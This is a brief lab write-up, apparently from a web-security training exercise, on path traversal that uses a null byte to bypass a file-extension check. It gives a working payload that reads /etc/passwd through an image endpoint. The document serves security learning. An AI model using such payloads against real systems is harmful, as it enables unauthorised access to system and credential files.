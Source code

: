 # Lab 6: 
File path traversal, validation of file extension with null byte bypass

## Details:
An application may require the user-supplied filename to end with an expected file extension, such as .png. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: filename=../../../etc/passwd%00.png

## Analysis: 
Vulnerable path - /image?filename=55.jpg



## Payload: 
/image?filename=../../../etc/passwd%00.jpg


